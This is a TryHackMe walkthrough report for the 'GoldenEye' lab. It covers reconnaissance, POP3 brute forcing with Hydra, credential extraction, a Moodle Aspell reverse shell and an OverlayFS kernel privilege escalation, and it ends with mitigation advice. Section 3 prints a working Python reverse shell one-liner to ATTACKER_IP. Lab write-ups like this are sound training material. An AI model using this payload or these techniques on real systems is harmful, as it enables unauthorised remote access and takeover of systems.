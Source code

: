 # 🟩GoldenEye – Try Hack Me (THM) Walkthrough Report

**Prepared by:** Nishanth Antony  
**Date:** August 13, 2025  
**Difficulty:** Medium  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps

- **Objective:** Identify open network services and enumerate web content.
- **Nmap Scan:**
```bash
nmap -p- <ip_address>
```

- **Findings:**
- Port 80: HTTP (web app with hints in source code)
- Ports 55006/55007: POP3 (Dovecot)
- Port 25: SMTP
- **Focus:** Web application source + unidentified POP3 services.

---

## 2. Exploitation Process

### Step 1 – Web Source Inspection
- Found `terminal.js` with HTML-encoded credentials:
boris:InvincibleHack3r

text
- Hint indicated `/sev-home/` path and more users.

### Step 2 – POP3 Enumeration & Brute Force
- Discovered POP3 services on ports 55006 and 55007:
nmap -sV -p 55006,55007 <ip_address>

text
- Used `hydra` with a fast wordlist to brute force passwords for(use fasttrack.txt as password list for faster results):
- boris
- natalya
- dr_doak
- Extracted more credentials from emails (xenia, admin).

### Step 3 – Sensitive File Enumeration
- dr_doak’s profile → `secret.txt` referenced a JPG.
- Used `exiftool` to reveal Base64-encoded admin credentials.

### Step 4 – Moodle Reverse Shell
- Logged into Moodle as admin.
- Modified `Aspell` binary path to a Python reverse shell payload.
- Triggered via spellcheck in a blog post editor → got low-priv shell.

---

## 3. Proof of Concept (PoC)

- Successfully logged into Moodle admin with extracted credentials.
- Reverse shell obtained from `Aspell` misconfiguration.
- Example payload:
```python
python -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("ATTACKER_IP",443));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
subprocess.call(["/bin/sh","-i"])'
```
---

## 4. Privilege Escalation

- OS: Ubuntu 14.04.1 → vulnerable to **OverlayFS (EDB-37292)**.
- Modified exploit to use `cc` compiler instead of `gcc`.
- Executed exploit → **root shell obtained**.
- Retrieved `/root/root.txt` flag.

---

## 5. Mitigation Recommendations

- **Credential Security:** Never embed creds in web code or files. Use hashing/vaults.
- **POP3 Hardening:** Enforce strong passwords, enable lockouts, disable if unused.
- **File Permissions:** Restrict access to sensitive files (secret.txt, PGP keys).
- **Web App Hardening:** Validate system path inputs in apps like Moodle.
- **OS Patching:** Apply OverlayFS fixes or upgrade to supported Ubuntu.
- **Compiler Restrictions:** Remove compiler tools from production systems.

---

## 6. Lessons Learned

- Client-side code can leak critical credentials.
- Multiple low-severity issues can chain into full compromise.
- Legacy OS + known exploits = easy privilege escalation.

---

## 7. Skills Practiced

- **Recon:** Nmap, service enumeration
- **Brute-force:** Hydra for POP3
- **File Analysis:** exiftool metadata extraction
- **Web Abuse:** Moodle RCE via path injection
- **Kernel Exploit:** OverlayFS privilege escalation

